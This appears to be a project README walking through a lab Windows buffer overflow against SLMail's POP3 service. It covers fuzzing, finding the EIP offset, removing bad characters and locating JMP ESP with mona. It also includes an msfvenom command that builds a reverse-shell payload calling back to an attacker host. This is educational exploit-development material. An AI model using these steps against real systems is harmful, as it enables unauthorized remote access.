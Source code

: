 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:

- Initialized the BOF machine, accessed the command prompt as an administrator, and ran **“slmgr /rearm”**.


- Ran **“ipconfig”** to determine the machine's IP address as **“10.0.2.10”**.


- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”** on the Windows VM and rebooted.


- Created a desktop shortcut for **“SLmail.cpl”**.


- Opened both **“SLmail.cpl”** & **“Immunity debugger”** with administrative rights.


- In **“Immunity debugger”**, attached the **“SLmail.exe”** file and ensured it's actively running.


- On the Kali machine, downloaded the fuzzer script labeled **“fuzzerScript.py”** and stored it in a **“BOF”** folder on the desktop.


- Created and edited a file named **“fuzzy.py”** in the same folder.


- Updated **“fuzzy.py”** line 13 with the target IP address and port, then saved changes.


- Conducted an nmap scan on the target VM to confirm open ports and noted the active **“pop3”** protocol.


- Navigated to the BOF directory and executed the **“fuzzy.py”** script using the **“python2 fuzzy.py”** command.


- Observed the EIP update to **“41414141”** in Immunity debugger.


- Generated an MSF pattern of 3000 bytes using the **“msf-pattern_create -l 3000”** command.


- Updated the **“fuzzy.py”** script's buffer with the generated MSF pattern and removed unnecessary loops.


- Reset SLmail.cpl and the Immunity debugger.


- Re-executed the **“fuzzy.py”** script and noted the updated EIP value in Immunity debugger.


- Determined the exact memory offset using the **“msf-pattern_offset -l 3000 -q 39694438”** command.


- Validated the offset by adjusting the buffer in **“fuzzy.py”** and observing the Immunity debugger's EIP value.


- Incorporated a list of potential bad characters into the **“fuzzy.py”** buffer.


- Re-executed the adjusted **“fuzzy.py”** script and followed the ESP in dump within Immunity debugger.


- Identified certain characters as **"bad"** and refined the **"fuzzy.py"** buffer.


- Re-executed the **"fuzzy.py"** script with the refined buffer.


- Searched for mona modules using the **“!mona modules”** command in Immunity debugger.


- Identified a suitable dll with **“!mona find -s "\xff\xe4" -m SLMFC.DLL”**.


- Crafted a shell code using the **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”** command.


- Integrated the shell code into **“fuzzy.py”** and adjusted the buffer accordingly.


- Restarted SLmail, ran the **“fuzzy.py”** script, and achieved system access with highest-level permissions as confirmed by the **“whoami”** command.
